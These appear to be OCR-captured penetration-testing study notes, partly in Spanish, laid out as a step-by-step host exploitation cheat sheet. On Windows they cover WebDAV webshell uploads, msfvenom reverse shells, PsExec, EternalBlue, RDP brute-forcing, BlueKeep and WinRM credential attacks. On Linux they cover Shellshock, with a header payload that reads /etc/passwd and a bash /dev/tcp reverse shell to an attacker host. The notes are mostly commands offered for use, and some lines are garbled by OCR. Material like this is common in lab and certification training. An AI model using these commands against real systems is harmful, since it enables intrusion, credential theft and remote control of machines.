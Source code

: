 # HOST EXPLOITATION

* WINDOWS

\-Microsoft IIS + WebDAV: (port 80/443)

Can execute .asp .aspx .config & .php files

davtest (used for scan, authenticate & exploit a WebDAV server)

davtest -url http://IPobj/webdav (without creds)

davtest -auth user:pass -url http://IPobj/webdav (this tells you the types of files we can upload and execute)

cadaver (upload files;download;screen display;edit;move;copy;create & erase collections;change the owener & block resources in WebDAV servers)

cadaver –help

cadaver http://IPobj/webdav (and input the credentials)

in other terminal: ls -al /usr/share/webshells (asp in this case)

after in cadaver: put /usr/share/webshells/asp/webshell.asp (config the shell if neccesary)

Come back again to the web page and try to execute the web shell typing the directory.

\-Microsoft IIS + WebDAV METASPLOIT:

Method 1:

msfvenom -p /windows/meterpreter/reverse\_tcp LHOST=IPkali LPORT=x -f asp > shell.asp (reverse shell payload in asp)

after: cadaver http://IPobj/webdav input credentials and upload the revshell with the put command

Open metasploit: service postgresql start && msfconsole -> use multi/handler -> set payload windows/meterpreter/reverse\_tcp (config exactly as the payload that we created with msfvenom), run it go to the web page, execute the payload uploaded and we got a reverse shell.

Method 2:

search iis upload -> use 1 -> show options & config it -> set path /webdav/metasploit.asp -> exploit

\-EXPLOITING SMB WITH PSEXEC:

To use PsExec we need credentials (user & pass) or a hash if we haven't the pass.

use: psexec.py user@IPobj cmd.exe

Para meterpreter:

search psexec -> use 10 (exploit/windows/smb/psexec) -> configurate and run.

\-ETERNALBLUE (Metasploit or python script from searchsploit). MS17-010 & CVE-2017-0144

Eternalblue is easy bruh.

\-EXPLOITING RDP: (normally 3389 TCP)

Requires an account of the victim PC (username & password)

metasploit rdp\_scanner (to see the version of RDP)

then bruteforce (with hydra for example) if we get an account with privileges is better.

xfreerdp /u:user /p:password /v:IPobj:RDPport (to connect via RDP to the victim machine)

\-BLUEKEEP: CVE-2019-0708:

METASPLOIT: search bluekeep (use the auxiliar module to see if it's vulnerable)

then search bluekeep -> use 1 (only works for x64 bits targets) -> show options (config as needed) -> show targets (choose the right one)

\-EXPLOITING WinRM: (5985 TCP y 5986 HTTPS)

Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)

Remote administration protocol for Windows hosts.

Exploitation:

crackmapexec to see the help panel

crackmapexec WinRM IPobj -u administrator -p /wordlistpass (to get credentials of a privileged user, Administrator always exists on windows)

crackmapexec winrm IPobj -u administrator -p pass -x “whoami” (to try RCE)

evil-winrm(.rb) -u administrator -p ‘passadmin’ -i IPobj (to obtain a shell of the victim)

METASPLOIT:

search winr\_script\_exec -> use 0 -> show options (y configurar) -> set force\_vbs true -> set username y password -> exploit (it may not work, try a few times)

* LINUX:

\-SHELLSHOCK: (CVE-2014-6271)

The shellshock vulenrability happens because a vulnerability in bash (old versions), bash executes commands after this instruction: (){:;};

Apache webservers configured to run cgi scripts or sh scripts may be vulnerable to this (those scripts are in /cgi-bin/ directory)

To exploit this vulnerability you have to find a script that is running through bash.

In the context of an apache webserver we could use any .cgi script stored in there.

EXPLOITING SHELLSHOCK:

We connect to the web page through the web explorer.

In the source code we see this:

```
In <script> we see that executes a .cgi file, access to the script through the URL.
```

Check if it's vulnerable con: nmap -sV IPobj –script=http-shellshock –script-args “http-shellshock.uri=/script.cgi”

MANUAL EXPLOITATION:

With burpsuite intercept the page IPobj/script.cgi -> right click -> send to repeater -> change the user-agent for: (){:;}; echo; echo; /bin/bash -c ‘cat /etc/passwd’ -> send , in response we get the output of the command executed. THIS IS A RCE SO YOU CAN USE /usr/bin/whoami for example.

MANUAL REVERSE SHELL:

nc -nlvp port (on local machine)

Go back to burpsuite repeater and in user-agent put this: (){:;}; echo; echo; /bin/bash -c ‘bash -i&/dev/tcp/IPkali/LPORTnetcat 0>&1’and we obtain the reverse shell.

METASPLOIT:

search shellshock -> use 5 (exploit/multi/http/apache\_mod\_cgi\_bash\_env\_exec) -> show options -> set targeturi script.cgi -> exploit
